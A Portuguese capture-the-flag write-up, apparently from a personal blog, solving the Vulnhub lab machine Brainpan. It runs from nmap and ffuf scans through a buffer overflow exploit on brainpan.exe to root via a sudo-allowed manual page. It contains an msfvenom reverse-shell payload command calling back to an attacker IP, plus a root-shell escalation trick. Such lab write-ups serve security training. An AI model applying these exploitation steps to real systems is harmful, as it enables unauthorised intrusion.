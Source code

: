 ```yaml
---
title: Vulnhub - Brainpan
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xPurpl3john.github.io/assets/img/Vulnhub/brainpan/capa.png
---
```



## Link da Maquina: <https://www.vulnhub.com/entry/brainpan-1,51/>
---



## Scanning web and services
### Host Discovery

Inicialmente, foi realizado um escaneamento na rede em busca do IP da máquina alvo.

```bash
sudo nmap 10.0.2.1-255 -sn
```

> O parâmetro `-sn` tem como finalidade realizar um ping scan.

![scan nmap -sn](/assets/img/Vulnhub/brainpan/scannmap.png)

### Port Discovery

Já com o IP alvo em mãos, foi utilizado o comando abaixo para obter mais informações a respeito das portas e serviços que estariam em funcionamento no alvo. O comando abaixo é dividido em duas partes, primeiramente ele realiza um escaneamento em todas as `65535 portas` existentes e as filtra, armazenando tudo na variável `ports` que é utilizada na segunda parte do comando.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.0.2.7 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.0.2.7
```

![Resultado scan nmap](/assets/img/Vulnhub/brainpan/resultnmap.png)

Como resultado foi obtido as portas `9999` com um serviço até então desconhecido denominado *”abyss?”* e `10000` utilizando um *SimpleTTPServer.* A partir dessa informação, deu-se início à enumeração das portas.

## Enumeration

### Port 10000 - SimpleHTTPServer

Tendo em vista o total desconhecimento sobre o serviço da porta `9999`, foi iniciado a enumeração da porta `10000` e foi encontrado uma página onde o conteúdo inteiro presente é uma imagem.

![10.0.2.7:10000](/assets/img/Vulnhub/brainpan/web10000.png)

A partir disso foi utilizado a ferramenta **fuff** para realizar o fuzzing de diretórios no serviço. Como resultado foi encontrado o diretório `/bin` no destino: `[http://10.0.2.7:10000/bin](http://10.0.2.7:10000/bin)` 

```bash
ffuf -u http://10.0.2.7:10000/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

![ffuf](/assets/img/Vulnhub/brainpan/ffuf.png)

### Port 9999 - brainpan.exe

Dentro do diretório `/bin` foi encontrado o arquivo `brainpan.exe` que ao ser testado com a ferramenta **wine**, mostrou-se ser o serviço que estava funcionando na porta 9999, conforme apresentado nas figuras abaixo.

![conteudo dir /bin](/assets/img/Vulnhub/brainpan/dirbin.png)

![brainpan.exe](/assets/img/Vulnhub/brainpan/brainpan.png)

![teste brainpan.exe](/assets/img/Vulnhub/brainpan/testbrainpan.png)

> Foram feitas algumas tentativas de entradas de dados (senha) porém todas sem sucesso.
> 

Após, foram iniciados testes com quantidades diferentes de strings até que fosse possível quebrar o programa, de acordo com as imagens a seguir.

![python -c ‘print (”A” * 200)’](/assets/img/Vulnhub/brainpan/python-c.png)

![Resultado da inclusão de 200 A’s](/assets/img/Vulnhub/brainpan/result200a.png)

Como visto, utilizando 200 bytes o programa funcionou normalmente. Agora, utilizaremos 1000 bytes.

![python -c ‘print (”A” * 10000)’](/assets/img/Vulnhub/brainpan/print1000a.png)

Foi possível quebrar o programa, logo, não há tratamento para dados em excesso e com isso tentaremos realizar o *Buffer Overflow.*

## Buffer Overflow

Após observar como a aplicação se comporta através da ferramenta *gdb,* foi verificado que o espaço de armazenamento da aplicação era de aproximadamente 520 bytes, logo, utilizando o comando abaixo, foi gerado uma lista com strings únicas.

```bash
msf-pattern_create -l 530
```

![brainpan.exe buffer](/assets/img/Vulnhub/brainpan/brainpanbuffer.png)

Enviando essa string para a área de input do binário alvo, e, observando o que acontece com a ferramenta *Immunity Debugger,* foi possível obter o parâmetro EIP onde a aplicação quebra.

![Parâmetro EIP](/assets/img/Vulnhub/brainpan/parametroeip.png)

Utilizando os dados obtidos no EIP da aplicação e, utilizando o comando abaixo, é possível obter a posição do desejado *offset.*

```bash
msf-pattern_offset -l 530 -q 35724134
```

![offset 524](/assets/img/Vulnhub/brainpan/offset524.png)

Com o valor do *offset* em mãos, chega a hora de utilizar nosso script para termos certeza a respeito do domínio total do EIP. O script abaixo, envia, de maneira automática, um buffer composto de 524 strings “A” e mais 4 strings “B”. As strings “B” (42) deverão ser visualizadas nos registradores do EIP.

![fuzzer.py](/assets/img/Vulnhub/brainpan/fuzzerpy.png)

![evil buffer in work](/assets/img/Vulnhub/brainpan/evilbuffer.png)

![local das strings BBBB](/assets/img/Vulnhub/brainpan/stringsbbbb.png)

Conforme a figura acima, o EIP foi corretamente preenchido com as strings “B”. Com isso, nosso controle do EIP está garantido.

Para gerar uma lista com todos os *chars* é utilizado os seguintes comandos

- `!mona config -set workingfolder c:\monalogs\%p`
- `!mona bytearray`

Gerando a seguinte lista de chars

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![fuzzer-2.py](/assets/img/Vulnhub/brainpan/fuzzer2py.png)

![!mona compare -f c:\monalogs\brainpan\bytearray.bin -a 0028F930](/assets/img/Vulnhub/brainpan/monacompare.png)

Com base na resposta do *mona* na figura acima, foi percebido que havia `\x00\` como um *badchar.* A partir disso, foram repetidos os passos anteriores porém, utilizando o parâmetro *-b* e o *badchar.*

Novamente foi feito o fuzzing para verificação de novos *badchars.* Não foi encontrado nenhum.

Tendo em vista que já encontramos e temos controle total do EIP, chegou a hora de buscar na aplicação o *opcode* JMP ESP.

> O *opcode* JMP ESP é responsável por realizar um SALTO para o *opcode* ESP.
> 

![opcode JMP ESP](/assets/img/Vulnhub/brainpan/opcodejmpesp.png)

Como visualizado na figura acima, foi encontrado o *opcode* JMP ESP e o mesmo possui os parâmetros 311712F3 e estes, devem ser passados, ao contrário, para nosso script no parâmetro *retn* conforme apresentado na figura abaixo.

![fuzzer-3.py](/assets/img/Vulnhub/brainpan/fuzzer3py.png)

No script `fuzzer-3.py` pode-se observar as variáveis “overflow, retn e padding”. Na variável “padding” está sendo enviado 400 strings “\xCC\” logo após o JMP ESP que está na variável “retn”.

![sending fuzzer-3.py](/assets/img/Vulnhub/brainpan/fuzzer3pysend.png)

![Tela Immunity Debbuger xCC](/assets/img/Vulnhub/brainpan/telaimmunity.png)

O próximo passo é criar o payload que será utilizado após a variável “padding” do nosso script. Para isso deve ser utilizado o comando abaixo.

> Lembrando de alterar os dados LHOST e LPORT
> 

```bash
sudo msfvenom -p linux/x86/shell_reverse_tcp -b '\x00' LHOST=10.0.2.6 LPORT=1337 -f python
```

![msfvenom payload](/assets/img/Vulnhub/brainpan/payload.png)

![fuzzer-4.py](/assets/img/Vulnhub/brainpan/fuzzer4py.png)

Executando o script da figura acima e utilizando o *nc* como o listener da porta 1337, entramos na máquina.

### Shell Obtido

![Shell Obtido!](/assets/img/Vulnhub/brainpan/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a shell na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios e o comando `sudo -l` nos trouxe como resposta que o usuário **puck** possuía permissão de executar o comando `/home/anansi/bin/anansi_util` como um usuário mais privilegiado, no caso, o root.

![/home/anansi/bin/anansi_util](/assets/img/Vulnhub/brainpan/anansi_util.png)

Executando o comando supracitado e entendendo seu funcionamento, foi possível observar que o mesmo possuía alguns parâmetros para executar. Dentre eles, o parâmetro **manual** chamou a atenção e ao utiliza-lo foi possível observar que havia a possibilidade de chamar outros comandos dentro do manual, conforme a figura abaixo.

![!/bin/sh](/assets/img/Vulnhub/brainpan/binsh.png)

Ao utilizar o comando `!/bin/sh` foi possível escalar privilégios.

![b.txt](/assets/img/Vulnhub/brainpan/btxt.png)

### Root obtido Brainpan!
